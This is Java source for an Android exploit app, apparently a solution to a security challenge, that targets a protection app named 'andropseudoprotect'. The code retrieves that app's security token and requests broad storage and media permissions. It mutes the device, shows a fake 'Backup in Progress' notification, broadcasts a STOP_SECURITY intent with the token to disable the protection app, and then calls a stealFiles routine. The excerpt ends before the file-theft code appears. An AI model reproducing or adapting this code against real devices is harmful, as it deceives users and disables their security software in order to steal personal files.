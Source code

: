 ```java

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        setContentView(R.layout.activity_main);
        TextView tokenTextView = findViewById(R.id.textView);
        Button btnStop = findViewById(R.id.StopBtn);
        Context context = MainActivity.this;

        SecurityUtils securityutils = new SecurityUtils(this);
        String token = securityutils.getSecurityToken();
        String txtviewstring = "The Security Token: " + token;
        tokenTextView.setText(txtviewstring);
        checkAndRequestStoragePermission();
        RequestSendingNotifications();
        RequestPermissionsToMute();
        NotificationHelper.createNotificationChannel(this);

        btnStop.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                muteTheDevice();
                // Send the notification
                NotificationUtils.showNotification(
                        MainActivity.this,
                        "Backup in Progress",
                        "Your files are being backed up securely. Please wait..."
                );
                sendBroadcastToSecurityApp("com.eightksec.andropseudoprotect.STOP_SECURITY", token);
                sleep(500);
                stealFiles(context);
            }
        });
    }

    private void sendBroadcastToSecurityApp(String action, String token) {
        Intent intent = new Intent(action);
        // Target the receiver app explicitly (important on Android 8+)
        intent.setPackage("com.eightksec.andropseudoprotect");
        intent.putExtra("security_token", token);
        sendBroadcast(intent);
    }


    private void checkAndRequestStoragePermission() {
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {
            if (!Environment.isExternalStorageManager()) {
                Intent intent = new Intent(Settings.ACTION_MANAGE_ALL_FILES_ACCESS_PERMISSION);
                startActivity(intent);
            }
        }

        // For Android 13+ use the new scoped media permissions
        String[] permissions = {
                Manifest.permission.READ_MEDIA_IMAGES,
                Manifest.permission.READ_MEDIA_VIDEO,
                Manifest.permission.READ_MEDIA_AUDIO
        };

        boolean allGranted = true;
        for (String permission : permissions) {
```